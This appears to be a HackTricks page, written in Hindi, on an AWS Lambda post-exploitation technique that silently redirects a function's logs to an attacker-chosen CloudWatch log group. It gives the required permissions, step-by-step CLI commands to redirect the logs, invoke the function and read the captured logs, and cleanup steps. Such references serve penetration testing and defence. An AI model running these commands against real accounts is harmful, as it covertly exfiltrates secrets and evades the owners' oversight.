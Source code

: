 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

`lambda:UpdateFunctionConfiguration` के advanced logging controls का दुरुपयोग करके किसी function के logs को attacker-चुने हुए CloudWatch Logs log group पर redirect करें। यह code या execution role बदलने के बिना काम करता है (ज़्यादातर Lambda roles पहले से `AWSLambdaBasicExecutionRole` के माध्यम से `logs:CreateLogGroup/CreateLogStream/PutLogEvents` शामिल करते हैं)। अगर function secrets/request bodies print करता है या stack traces के साथ crash होता है, तो आप उन्हें नए log group से इकट्ठा कर सकते हैं।

## आवश्यक अनुमतियाँ
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (या मौजूदा triggers पर निर्भर करें)
- logs:CreateLogGroup (अक्सर आवश्यक नहीं होता यदि function role में यह मौजूद हो)
- logs:FilterLogEvents (इवेंट पढ़ने के लिए)

## चरण
1) एक sink log group बनाएं
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) लक्षित function logs को पुनर्निर्देशित करें
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
इंतज़ार करें जब तक `LastUpdateStatus` `Successful` न हो:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) sink को कॉल करें और उससे पढ़ें
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## प्रभाव
- गुप्त रूप से सभी एप्लिकेशन/सिस्टम लॉग्स को आपके नियंत्रित log group में पुनर्निर्देशित करना, जिससे यह अपेक्षा टाली जा सके कि लॉग्स केवल `/aws/lambda/<fn>` में ही landen।
- Exfiltrate उस संवेदनशील डेटा को जो फ़ंक्शन द्वारा प्रिंट किया गया हो या त्रुटियों (errors) में प्रकट हुआ हो।

## सफाई
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## नोट्स
- लॉगिंग नियंत्रण Lambda के `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel) का हिस्सा हैं।
- डिफ़ॉल्ट रूप से, Lambda लॉग्स `/aws/lambda/<function>` पर भेजता है, लेकिन आप किसी भी log group नाम की ओर निर्देशित कर सकते हैं; Lambda (या execution role) इसे बना देगा यदि अनुमति हो।

{{#include ../../../../banners/hacktricks-training.md}}
